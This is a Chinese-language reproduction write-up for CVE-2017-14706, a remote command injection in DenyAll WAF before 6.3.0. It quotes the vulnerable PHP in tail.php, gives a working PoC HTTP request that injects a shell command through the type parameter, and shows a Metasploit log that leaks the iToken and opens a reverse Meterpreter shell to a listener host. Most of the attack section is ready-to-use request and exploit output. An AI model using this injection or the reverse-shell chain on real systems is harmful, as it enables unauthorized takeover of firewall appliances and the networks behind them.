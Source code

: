 （CVE-2017-14706）DenyAll WAF \< 6.3.0 远程命令执行漏洞
=======================================================

一、漏洞简介
------------

二、漏洞影响
------------

DenyAll WAF \< 6.3.0

三、复现过程
------------

### 漏洞分析

其实，DenyAll
WAF中存在多处命令注入，其中一处为/webservices/stream/tail.php，以下是其中的一段代码：

    if(isset($_REQUEST['iToken'])){
      if($local->getIToken()!=$_REQUEST['iToken']){
        exitPrint(t_("Bad key, authentication on slave streaming server failed"));
      }
    }else{
      exitPrint(t_("Authentication on slave streaming server failed"));
    }
    if(isset($_REQUEST['tag']) && $_REQUEST['tag']!=''){
      // on doit chercher le bon fichier
      if(isset($_REQUEST['stime'])&&$_REQUEST['stime']!=''){ // Start time version
        tailDateFile();
      }else{ // dernier fichier ouvert
        if($_REQUEST['tag']=='tunnel') $_REQUEST['file']=basename(shell_run("ls -1t ".__RP_LOG__."*/".$_REQUEST['uid']."/*-".$_REQUEST['type'].".log| head -n1 2>/dev/null"));
        else $_REQUEST['file']=$_REQUEST['uid'].'-'.$_REQUEST['type'].'.log';
      }
    }

在iToken可被泄露的情况下，这里又出现了另一个函数tailDateFile()，以下是其具体代码：

    function tailDateFile(){
      global $_REQUEST;
      $stime=(int)($_REQUEST['stime']/1000);
      $tag=$_REQUEST['tag'];
      $uid=$_REQUEST['uid'];
      $type=$_REQUEST['type']; // access or error
      chdir(__RP_LOG__);
      if($tag=='tunnel'){ // reverse proxy
        $files=shell_run("ls -1 */$uid/*-$type-*.log 2>/dev/null|sort")."\n"; // avec date trié au début
        $files.=shell_run("ls -1t */$uid/*-$type.log 2>/dev/null"); // courant trié par utilisation
      }else{
        $files=shell_run("ls -1 $uid-$type*-log 2>/dev/null|sort")."\n";
        $files.=shell_run("ls -1t $uid-$type.log 2>/dev/null");
      }
      // .. CODE OMITTED ..
    }

从以上代码可以看到，\$uid参数可被控制，而且它还是shell\_run()函数变量的一部分。结合上述提及的这两方面问题，我们就能实现未授权命令注入漏洞。

### PoC

通过HTTP请求触发远程RCE实现：

    GET /webservices/stream/tail.php?iToken=y760e0299ba6fc1a2739df5a8f64fc5a&tag=tunnel&stime=aaa&type=aaa$(sleep%2030") HTTP/1.1
    Host: www.0-sec.org:3001
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Cookie: connect.sid=s%3AWGBO5SaeECriIG8z4SMjwilZgl7SM0ej.0hGC0CcXrwnoJLb4YucLi8lbr%2FC8f2TNIicG4EmFLFU
    Connection: close
    Upgrade-Insecure-Requests: 1

### Metasploit反弹控制模块

https://github.com/rapid7/metasploit-framework/pull/8980

    msf exploit(denyall_exec) > set RHOST 35.176.123.128
    RHOST => 35.176.123.128
    msf exploit(denyall_exec) > set LHOST 35.12.3.3
    LHOST => 35.12.3.3
    msf exploit(denyall_exec) > check
    [*] 35.176.123.128:3001 The target appears to be vulnerable.
    msf exploit(denyall_exec) > exploit
    [-] Handler failed to bind to 35.12.3.3:4444:-  -
    [*] Started reverse TCP handler on 0.0.0.0:4444
    [*] Extracting iToken value from unauthenticated accessible endpoint.
    [+] Awesome. iToken value = n84b214ad1f53df0bd6ffa3dcfe8059a
    [*] Trigerring command injection vulnerability with  iToken value. 
    [*] Sending stage (40411 bytes) to 127.0.0.1  
    [*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:60556) at 2017-09-19 14:31:52 +0300
     
    meterpreter > pwd
    /var/log/denyall/reverseproxy
    meterpreter > exit
    [*] Shutting down Meterpreter... 
    [*] 172.31.11.218 - Meterpreter session 1 closed.  Reason: User exit
    msf exploit(denyall_exec) > exit    
